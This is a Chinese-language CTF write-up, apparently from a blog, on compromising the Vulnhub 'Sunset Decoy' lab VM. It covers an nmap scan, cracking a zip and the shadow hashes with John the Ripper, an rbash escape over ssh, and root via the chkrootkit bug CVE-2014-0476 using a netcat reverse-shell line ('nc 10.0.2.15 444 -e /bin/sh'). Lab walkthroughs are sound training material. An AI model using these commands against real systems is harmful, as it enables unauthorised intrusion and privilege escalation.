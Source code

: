```yaml
---

title: Vulnhub	505 SUNSET DECOY

---
```

考点：暴力穷举,chkrootkit,rbash绕过

靶机链接：<https://www.vulnhub.com/entry/sunset-decoy,505/>

## 环境配置

| 名称         | IP        |
| ------------ | --------- |
| Kali Linux   | 10.0.2.15 |
| SUNSET DECOY | 10.0.2.13 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.13
$ sudo nmap -v -A -p- $rip
Scanning localhost (10.0.2.13) [65535 ports]
Discovered open port 80/tcp on 10.0.2.13
Discovered open port 22/tcp on 10.0.2.13
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9:b5:3e:3b:e3:74:e4:ff:b6:d5:9f:f1:81:e7:a4:4f (RSA)
|   256 ce:f3:b3:e7:0e:90:e2:64:ac:8d:87:0f:15:88:aa:5f (ECDSA)
|_  256 66:a9:80:91:f3:d8:4b:0a:69:b0:00:22:9f:3c:4c:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
```

### WEB测试

查看80端口，下载save.zip

```bash
$ zip2john save.zip >>save.txt
$ john save.txt --wordlist /usr/share/wordlists/rockyou.txt
```

得到zip压缩包密码`manuel`

![1](https://static.iihack.com/vulnhub/505/1.PNG)

解压缩得到一些文件

### 漏洞发现

尝试暴力破解系统密码

```bash
$ unshadow passwd shadow >pass.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt 

```

## 获得权限

### 靶机测试

![2](https://static.iihack.com/vulnhub/505/2.PNG)

成功获得一个用户的密码

现在登陆上去是rbash

使用参数获得bash

```bash
$ ssh 296640a3b825115a47b68fc44501c828@10.0.2.13 -t "bash -noprofile" 
```



## 提权

![3](https://static.iihack.com/vulnhub/505/3.PNG)

![4](https://static.iihack.com/vulnhub/505/4.PNG)

### chkrootkit

发现chkrootkit，尝试已存在漏洞[CVE-2014-0476](https://www.exploit-db.com/exploits/33899)

```bash
$ cd /tmp
$ echo "/usr/bin/nc 10.0.2.15 444 -e /bin/sh" > update
$ bash update
```

![5](https://static.iihack.com/vulnhub/505/5.PNG)
